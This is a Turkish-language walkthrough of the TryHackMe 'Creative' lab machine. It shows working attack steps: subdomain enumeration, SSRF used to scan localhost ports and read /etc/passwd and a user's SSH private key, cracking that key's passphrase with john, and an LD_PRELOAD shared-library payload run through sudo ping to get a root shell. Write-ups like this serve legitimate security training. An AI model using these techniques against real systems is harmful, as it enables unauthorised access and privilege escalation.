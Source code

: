 ```yaml
---
title: Creative
date: 2024-03-28 12:13:12 
categories: [TryHackMe]
tags: [Easy]
image: /images/crea.jpg
---
```



<a href="https://tryhackme.com/r/room/creative">Creative</a>

---

## User Flag

nmap komutu:
````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.22.245  
````

nmap sonucu:
````bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 11:10 EDT
Nmap scan report for 10.10.22.245 (10.10.22.245)
Host is up (0.13s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

80 portunda web servisi çalışıyor. Siteyi ziyaret edelim


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/1.png?raw=true)


Siteyi görüntülemek için /etc/hosts dosyasını düzenlememiz gerekiyor.

````bash
nano /etc/hosts
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/2.png?raw=true)

Artık siteye erişebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/3.png?raw=true)


Sitede gezindiğimde dikkatimi çeken bir şey olmadı.

Dizin taraması yaptım. Gobuster sadece /assets dizinini buldu dizine gittiğimde 403 forbidden hatası alıyorum yani dosyayı görüntüleme iznimiz yok.


Subdomain taraması başlattım.

````bash
┌──(root㉿kali)-[~]
└─# gobuster vhost --wordlist=/usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --url http://creative.thm/ --append-domain -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://creative.thm/
[+] Method:          GET
[+] Threads:         40
[+] Wordlist:        /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.creative.thm Status: 200 [Size: 591]
````

beta subdomainini buldum. etc/hosts dosyasına ekledim ve siteye gittim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/4.png?raw=true)

Adından da anlaşılacağı üzere bir url vermemizi istiyor.

Test için bir index.html dosyası oluşturdum.

````bash
echo "R3tr0" > index.html
````

Sonrasında web servisini çalıştırdım.

````bash
python3 -m http.server 80
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/5.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/6.png?raw=true)

Site index.html dosyasını gösteriyor.

`http://localhost` ile sitenin içeriğini görmeyi denedim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/7.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/8.png?raw=true)

Buradan sonra ne yapacağımı bilmiyordum. İnternette araştırma yaptım. Nmap taramasında görünmeyen ve dışarıdan erişilemeyen bir port olabileceğini düşünerek en çok kullanılan port numaralarını `http://localhost:$PORT` olarak taradım.


Wordlist için Chatgpt den yardım aldım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/9.png?raw=true)

Port numaralarını port.txt dosyasına kaydettim.

Ardından burp ile isteği yakalayıp Intruder e attım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/10.png?raw=true)

Hazırladığım wordlisti vererek saldırıyı başlattım.

1337 portunda güzel şeyler var :)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/11.png?raw=true)

`http://localhost:1337` yazdığımda makinenin içeriğini görüntüleyebiliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/12.png?raw=true)

`http://localhost:1337/etc/passwd` yazarak kullanıcıları görebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/13.png?raw=true)

Hedefimiz saad kullanıcısı. Makinede araştırma yaptığımda saad kullanıcısının id_rsa ssh key'ine rastladım.

`http://localhost:1337/home/saad/.ssh/id_rsa`

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/14.png?raw=true)

id_rsa dosyası oluşturdum. ve `chmod 600 id_rsa` ile gerekli izinleri verdim.

ssh2john aracını kullanarak hash'ini aldım ve john ile kırdım.

````bash
┌──(root㉿kali)-[~/Desktop]
└─# chmod 600 id_rsa
                                                                                                                       
┌──(root㉿kali)-[~/Desktop]
└─# ssh2john id_rsa > password.hash   
                                                                                                                       
┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt password.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
------        (id_rsa)     
1g 0:00:00:25 DONE (2024-04-29 12:57) 0.03912g/s 37.55p/s 37.55c/s 37.55C/s xbox360..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
````

Artık makineye girebiliriz.

````bash
┌──(root㉿kali)-[~/Desktop]
└─# ssh saad@10.10.22.245 -i id_rsa
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/15.png?raw=true)

User flag'ini aldık.

### Root Flag

.bash_history dosyasında saad kullanısının parolası yazıyor. Kullanmamız gerekebilir.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/16.png?raw=true)

````bash
saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
````

env_keep+=LD_PRELOAD ve ping ile yetkimizi yükseltebiliriz.

Root.c dosyası oluşturdum.

````bash
nano root.c
````

````c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
````

C dosyasını çalıştırılabilir bir dosya haline getirdim.

````bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
````

````bash
sudo LD_PRELOAD=/tmp/root.so ping
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Creative/images/17.png?raw=true)

Ve yetkimizi yükselttik :)

![fsoc](/images/fsoc.gif)




